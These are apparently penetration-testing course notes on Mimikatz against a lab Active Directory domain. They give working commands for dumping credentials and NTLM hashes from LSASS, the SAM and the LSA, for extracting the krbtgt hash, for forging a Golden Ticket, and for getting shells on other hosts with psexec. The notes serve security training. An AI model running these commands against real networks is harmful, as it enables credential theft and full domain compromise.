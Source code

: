 6. Mimikatz

Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks

- dumps credentials stores in memory
- A few attacks:
	- Credential Dumping
	- Pass-the-Hash 
	- Over-Pass-the-Hash
	- Pass-the-Ticket
	- Golden Ticket
	- Silver Ticket


Very likely to be picked up / caught

mimikatz changes all the time, might not work the same by the time we use it

We will learn how to keep persistance and have a 'Golden Ticket'

## Credential Dumping with Mimikatz
Go on github page and download mimikatz_trunk.zip straight to our DC
We will assume we have compromised the DC.

Mimikatz wiki very helpful (learn about different modules)

```
C:\Users\Administrator\Downloads>mimikatz.exe
```
Syntax something like `module::option`

![a56e439ac8fbe7e0441a92f091386c18.png](../../_resources/0571463bb9a647f4bfb92d63d236332b.png)

debug means it is allowing us to debug a process that we would otherwise not have access to.
`Privilege '20' OK`

We are going to attempt to dump some info out of memory. We need to be able to bypass the memory protections in place
Especially for the lsass.exe for example

We will run a few attacks

First: 
```
securlsa::logonpasswords
```

![c35f268174719337180b5650a819113d.png](../../_resources/df753998b2804d92a3d82e199649478b.png)

We get NTLM hashes, accounts that are logged in, etc. 
wdigest is a feature that in Windows 7 and below stored passwords in cleartext. The feature still exists even if it was patched in Windows 8 and above. If we turn it on, it will store passwords in cleartext and if we wait and someone logs out and in we will get the pass in cleartext

Can try and get the sam
```
lsadump::sam
lsadump::sam /patch
```
even if these don't work, there are other ways we have learned

```
lsadump::lsa /patch
```

![51f08598a9317ee6567cd384b3cbc8d7.png](../../_resources/bdd064b1e4bf4bba8d26a00a75aeb1d6.png)

LSA == Local Security Authority
- A protected subsystem in Windows Authentication
- It authenticates and creates logon sessions to the local computer 
We are on a DC and we are dumping the LSA here, this is one option

We are looking at usernames and NTLM hashes. So can just try to crack them offline... (hashcat etc.). It does matter to see what percentage of passwords we crack to comment on how strong the client's password policy is. It gives them a number to put on their policy. 

Other option, we can download the NTDS.dit file which will contain all the credentials as well

## Golden Ticket

krbtgt account > we can generate tickets from there
Previously, we got the hash for it
PIC

Like that, we get to generate Kerberos TGT's 
With a Kerberos TGT we can request access to any system or resource on the domain using the Ticket granting service
- When we have a **golden ticket** it means we have full access to the entire domain, all the machines we can get shell's on, can get all files, all folders etc.

```
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

![71ebdc6616ad0d2b485bf2e11a5a0e57.png](../../_resources/7dfc2cb0653d41ff9b4af4df10fb9e94.png)

like that, we only pull the krbtgt user


Need to copy domain SID and Primary NTLM 

![f0ec2cfe4997b7f6f0b2ba5d4b8924f9.png](../../_resources/c04ee789c7f04a9ca6777bd55526c7f2.png)

Syntax:
```
kerberos::golden /User:FakeAdmin /domain:marvel.local /sid:<domain_SID> /krbtgt:<krbNTLMprimary> /id:500 /ptt
```
The admin account 'rid' is 500
ptt for pass the ticket, i.e. pass the ticket along to the next (current or next) session. We will use this ticket to open up a CMD prompt, and that will be able to access any computer we want 

![6a1468a3f6e064f6a2db0ef9474574b7.png](../../_resources/a20e5784e0064b628fa754dd6226683e.png)

Then do
```
mimikatz # misc::cmd
```

That will open a new cmd prompt window

![3289472a5ec8f5c818a0328de45b00d1.png](../../_resources/96dc872d87c548689e2dc675c71df6c9.png)

can access any computer (e.g. DARTHVADER or SPOCK)

Can even download psexec.exe (it is a Windows tool) and run it on the machine and get shells. And run it against the computers and we can get a shell like that:
```
psexec.exe \\DARTHVADER cmd.exe
```


